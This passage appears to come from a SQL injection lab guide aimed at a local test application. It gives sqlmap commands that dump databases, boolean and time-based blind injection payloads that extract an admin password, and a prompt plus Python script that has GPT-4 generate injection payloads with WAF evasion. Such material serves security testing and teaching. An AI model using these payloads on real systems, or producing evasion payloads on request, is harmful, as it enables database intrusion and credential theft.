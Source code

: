 **Automated Testing:**
```bash
# sqlmap full scan
sqlmap -u "http://localhost:8080/index.php?page=login" \
       --data="username=admin&password=test" \
       --risk=3 \
       --level=5 \
       --batch \
       --dump

# Test specific parameter
sqlmap -u "http://localhost:8080/index.php?page=product_detail&id=1" \
       --dbs \
       --batch
```

#### 3.2 Blind SQL Injection

```bash
# Time-based blind SQLi
sqlmap -u "http://localhost:8080/index.php?page=product_detail&id=1" \
       --technique=T \
       --batch

# Boolean-based blind SQLi
' AND 1=1--  # True condition
' AND 1=2--  # False condition

# Extract data character by character
' AND SUBSTRING((SELECT password FROM admin_panel LIMIT 1),1,1)='a'--
```

#### 3.3 AI-Generated Payloads

**Prompt:**
```
Generate 10 advanced SQL injection payloads for MySQL 8.0 that can:
1. Bypass authentication
2. Extract data using UNION
3. Work with WAF evasion
4. Use time-based blind SQLi
```

**Python Script:**
```python
import openai

def generate_sqli_payloads(context, objective):
    prompt = f"""
    Context: {context}
    Objective: {objective}
    Database: MySQL 8.0

    Generate 5 SQL injection payloads optimized for this scenario.
    Include explanation for each payload.
    """

    response = openai.ChatCompletion.create(
        model="gpt-4",
        messages=[{"role": "user", "content": prompt}]
    )

    return response.choices[0].message.content

# Usage
context = "Login form with username and password fields"
```